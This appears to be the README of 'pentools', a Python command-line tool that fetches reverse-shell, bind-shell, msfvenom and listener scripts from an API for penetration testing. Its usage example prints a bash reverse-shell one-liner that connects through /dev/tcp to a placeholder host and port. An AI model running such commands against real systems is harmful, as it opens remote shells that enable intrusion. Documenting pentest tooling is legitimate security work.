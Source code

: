 ## CLI Tool for interacting with Pen Tools API.
A command line interface tool for interacting with Pen Tools API. Quickly retrieve and format scripts using a simple set of commands.
### Installation 
**The package requires Python 3.7 or higher**.

Install latest version from [PyPI](https://pypi.org/project/pentools/): ```pip install pentools``` 

### Resources
[API documentation](https://pentools.herokuapp.com/docs)
### Usage
Retrieve the list of scripts based on specified category (leave blank to see all).

```
pentools list
```
output:
```
Available types

0. rev
1. bind
2. msf_venom
3. listener
```

Add the ```-f``` flag to see available scripts.

```
pentools list rev  -f
```
output:
```
Available scripts and types

0. rev
    Shell session established on a connection that is initiated from a remote machine.
        0. bash_i [id: 1]('linux', 'mac')
        1. bash_196 [id: 2]('linux', 'mac')
        2. bash_read_line [id: 3]('linux', 'mac')
        3. Bash_5 [id: 4]('linux', 'mac')
        ...
```

Retrieve and format a specific script based on id.

```
pentools script -i 1 -ho example.ip -p 12345 -s bin/bash
```
output:
```
---------------(code)---------------

bin/bash -i >& /dev/tcp/example.ip/12345 0>&1

-------------(end code)-------------
```


        


